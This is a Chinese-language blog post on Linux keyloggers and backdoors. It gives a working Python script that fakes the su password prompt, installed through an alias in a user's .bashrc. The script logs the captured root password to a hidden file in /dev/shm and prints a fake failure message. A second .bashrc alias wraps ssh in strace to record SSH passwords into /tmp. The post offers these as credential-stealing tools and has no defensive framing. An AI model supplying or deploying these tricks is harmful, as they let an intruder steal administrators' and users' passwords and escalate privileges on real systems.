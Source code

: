```yaml
---
layout:     post
title:      "Keyboard Logger On Linux - Part 1"
date:       2016-12-23
categories: [Keyboard Logger，Backdoor]

---
```


### alias su keylogger

在一个低权限用户目录下的.bashrc添加一句alias su='/usr/root.py'，低权限用户su root后成功记录密码，但使用这种方法后管理员无法正常su切换至root用户下，所以比较容易被管理员发现。密码记录路径请看脚本。 

```python
#!/usr/bin/python
# -*- coding: cp936 -*-

import os, sys, getpass, time

current_time = time.strftime("%Y-%m-%d %H:%M")
logfile="/dev/shm/.su.log"              //密码获取后记录在这里
#CentOS                 
#fail_str = "su: incorrect password"
#Ubuntu              
#fail_str = "su: Authentication failure"
#For Linux Korea                    //centos,ubuntu,korea 切换root用户失败提示不一样
fail_str = "su: incorrect password"
try:
	passwd = getpass.getpass(prompt='Password: ');
	file=open(logfile,'a')
	file.write("[%s]t%s"%(passwd, current_time))   //截取root密码
	file.write('n')
	file.close()
except:
	pass
time.sleep(1)
print fail_str                               //打印切换root失败提示
```

### alias ssh keylogger

同样编辑当前用户下的.bashrc文件,添加以下内容，然后使用source .bashrc 命令使配置生效，当ssh的时候,就会在tmp下面生成记录

```basic
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh' 
```

